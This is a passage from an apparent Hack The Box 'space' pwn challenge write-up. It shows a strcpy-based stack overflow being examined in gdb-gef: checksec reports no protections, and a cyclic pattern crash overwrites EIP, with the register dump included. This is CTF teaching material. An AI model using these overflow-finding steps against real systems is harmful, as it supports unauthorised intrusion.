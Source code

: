 so the vuln function is copying the input into buffer `call sym.imp.strcpy`.
as we know `strcpy()` function does not specify the size of the destination array, so buffer overrun is often a risk. Using strcpy() function to copy a large character array into smaller one is dangerous, but if the string will fit, then it will not worth the risk. If destination string is not large enough to store the source string then the behavior of strcpy() is unspecified or undefined.

### Gdb Gef

As we got few things to start with , but lets enum more with gdb before writing our exploit.


```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/challenge/pwn/space]
└──╼ $gdb ./space 
gef➤
```

lets check which  `binary protection` are enabled on binary.

```shell
gef➤  checksec
[+] checksec for '/home/oxy/Practice/hackthebox/challenge/pwn/space/space'
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
gef➤  
```
its look like no any protection are enabled on the binary, so things will be bit easy for us .

lets create a `pattern` of length  50 and check the number of bit required to reach eip.

```shell
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
[+] Saved as '$_gef1'
gef➤  run
Starting program: /home/oxy/Practice/hackthebox/challenge/pwn/space/space 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.
0x61666161 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd01a  →  0x61616161 ("aaaa"?)
$ebx   : 0x61646161 ("aada"?)
$ecx   : 0xffffd060  →  0xffffd080  →  0x00000001
$edx   : 0xffffd039  →  0xffffd080  →  0x00000001
$esp   : 0xffffd030  →  0x61676161 ("aaga"?)
$ebp   : 0x61656161 ("aaea"?)
$esi   : 0xf7fa8000  →  0x001e4d6c
$edi   : 0xf7fa8000  →  0x001e4d6c
$eip   : 0x61666161 ("aafa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd030│+0x0000: 0x61676161	 ← $esp
0xffffd034│+0x0004: 0x61686161
0xffffd038│+0x0008: 0xffd08061
0xffffd03c│+0x000c: 0x080400ff
0xffffd040│+0x0010: 0x616161fc
```